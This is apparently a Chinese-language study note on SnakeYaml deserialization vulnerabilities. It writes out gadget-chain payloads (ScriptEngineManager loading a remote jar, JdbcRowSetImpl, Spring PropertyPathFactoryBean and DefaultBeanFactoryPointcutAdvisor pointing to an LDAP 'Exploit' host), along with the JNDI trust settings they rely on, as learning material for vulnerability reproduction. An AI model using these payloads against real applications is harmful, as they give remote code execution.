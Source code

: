 # SnakeYaml 反序列化

>  序列化的流程

![image-20220225115239098](https://img.dem0dem0.top/images/image-20220225115239098.png)

![](https://img.dem0dem0.top/images/image-20220225115239098.png)

![image-20220225115345779](https://img.dem0dem0.top/images/image-20220225115345779.png)

获取类的`fileds`，然后获取具体的数据，抽象成`Node`。

>反序列化

![image-20220225204927033](https://img.dem0dem0.top/images/image-20220225204927033.png)

只能说，懂得都懂(

主要的还是通过`javax.script.ScriptEngineManager`的链子来利用。推测 fastjson的链子应该都可以使用(

```java
"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1/yaml-payload.jar\"]]]]"
```



## 漏洞复现

> poc生成:https://github.com/artsploit/yaml-payload
>
> 参考链接; https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x03-%E6%9B%B4%E5%A4%9AGadgets%E6%8E%A2%E7%A9%B6
>
> https://xz.aliyun.com/t/2042#toc-21

或者在web目录下面新建`/META-INF/services/javax.script.ScriptEngineFactory`然后来加载远程的恶意类。

> 在init()中调用了initEngines()，跟进initEngines()，**看到调用了`ServiceLoader<ScriptEngineFactory>`，这个就是Java的SPI机制，它会去寻找目标URL中`META-INF/services`目录下的名为javax.script.ScriptEngineFactory的文件，获取该文件内容并加载文件内容中指定的类即PoC，这就是前面为什么需要我们在一台第三方Web服务器中新建一个指定目录的文件，同时也说明了ScriptEngineManager利用链的原理就是基于SPI机制来加载执行用户自定义实现的ScriptEngineManager接口类的实现类，从而导致代码执行**：

其他的trick暂时不做过多的讨论了，因为和fastjson部分是差不多的，打算等到fastjson的时候细致地分析一波。RMI和LDAP了解的不是很深入，建议重新复习一下`EKI`的文章

:rabbit:**注意高版本的设置一下以下的两种属性**

- LDAP

```java
System.setProperty("com.sun.jndi.rmi.registry.trustURLCodebase","true");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
```

- JdbcRowSetImpl

  ```java
  String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://localhost:1389/Exploit\"\n autoCommit: true";
  ```

  ![image-20220314205706320](https://img.dem0dem0.top/images/image-20220314205706320.png)

- Spring PropertyPathFactoryBean

  > 需要在目标环境存在springframework相关的jar包，以我本地环境为例：snakeyaml-1.25，commons-logging-1.2，unboundid-ldapsdk-4.0.9，spring-beans-5.0.2.RELEASE，spring-context-5.0.2.RELEASE，spring-core-5.0.2.RELEASE。

  ```java
  String poc = "!!org.springframework.beans.factory.config.PropertyPathFactoryBean\n" +
                  " targetBeanName: \"ldap://localhost:1389/Exploit\"\n" +
                  " propertyPath: mi1k7ea\n" +
                  " beanFactory: !!org.springframework.jndi.support.SimpleJndiBeanFactory\n" +
                  "  shareableResources: [\"ldap://localhost:1389/Exploit\"]";
  ```

- Spring DefaultBeanFactoryPointcutAdvisor

  > 需要在目标环境存在springframework相关的jar包，以我本地环境为例：snakeyaml-1.25，commons-logging-1.2，unboundid-ldapsdk-4.0.9，spring-beans-5.0.2.RELEASE，spring-context-5.0.2.RELEASE，spring-core-5.0.2.RELEASE，spring-aop-4.3.7.RELEASE。

  大概触发逻辑在保`org.springframework.jndi.support.SimpleJndiBeanFactory`

  大概讲述一下这个过程，首先新建的是`"set":"xxx"`这样的一个键值对，然后呢开始新建他的属性类`org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor`,我们可以看到这里新建了两个，在第二个属性新建完成在put进去的时候，会触发`AbstractPointcutAdvisor`的`equals`方法，然后，又到后面的方法，这里大概的逻辑就是通过对比`advise`中的factor来进行比对

  ```java
  set:
      ? !!org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
        adviceBeanName: "ldap://localhost:1389/Exploit"
        beanFactory: !!org.springframework.jndi.support.SimpleJndiBeanFactory
          shareableResources: ["ldap://localhost:1389/Exploit"]
      ? !!org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor []
  
  ```

- Apache XBean

  ```
  
  ```

  

## 不出网利用

>  参考链接:https://xz.aliyun.com/t/10655#toc-8

